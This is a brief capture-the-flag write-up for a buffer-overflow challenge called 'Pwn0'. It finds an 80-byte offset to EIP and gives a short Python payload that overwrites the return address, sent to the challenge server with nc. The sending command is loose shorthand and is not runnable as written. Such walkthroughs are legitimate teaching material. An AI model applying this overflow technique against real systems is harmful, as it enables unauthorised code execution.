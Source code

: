 # Pwn0

![pwn0_chall](../IMG/pwn0_chall.png)

It's just a programme which asks : "How's the josh?" and answer : "Your josh is low! Bye!"

If we put many number we got : 

![pwn0_proof1](../IMG/pwn0_proof1.png)

![pwn0_proof2](../IMG/pwn0_proof2.png)

so at index 80, we overwrite EIP register.

so we have our offset, need what to inject !

By dissasembling the main programme, we can see :

![pwn0_proof3](../IMG/pwn0_proof3.png)

so we just call the **movl** previous instruction.

so our injection looks like : 

```python
offset = "A"*80
payload = "\x57\x85\x04\x08"
```

```bash
python -c 'print offset+payload'|nc 104.154.106.182:1234
and get the flag !
```
![pwn0_proof4](../IMG/pwn0_proof4.png)























```
